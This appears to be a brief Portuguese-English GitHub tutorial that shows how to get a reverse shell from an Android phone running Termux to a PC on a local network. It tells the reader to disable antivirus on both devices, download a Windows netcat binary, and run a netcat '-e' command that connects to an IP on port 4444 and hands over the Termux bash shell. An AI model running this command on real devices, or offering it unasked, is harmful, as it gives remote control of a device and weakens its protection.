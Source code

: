 ## Tutorial Reverse Shell Termux 2025

- Passos a seguir:
1° Turn of Antivirus ( PC , cell )
2° Install Pkg's in Termux ( nano , which , nc etc...)
3° Install NC on PC 

Dowloading nc in windons ( link: https://github.com/diegocr/netcat/blob/master/nc.exe )
<img width="981" height="519" alt="image" src="https://github.com/user-attachments/assets/0e478801-485a-4bef-80fe-c063411f6493" />
(IMAGEM DO PC)

<img width="296" height="152" alt="image" src="https://github.com/user-attachments/assets/594827ce-91ca-4867-9c88-a112ea16dfa6" />
( Imagem do celular )

Comando usado ( nc 192.168.100.168 4444 -e 'caminho da bash do termux')

# isto é apenas a forma mais simples de mostrar um shell reverse num telefone 

shell reversa obtida
<img width="608" height="284" alt="image" src="https://github.com/user-attachments/assets/fc387a56-0d8c-4b98-9e4d-c87622d45b73" />
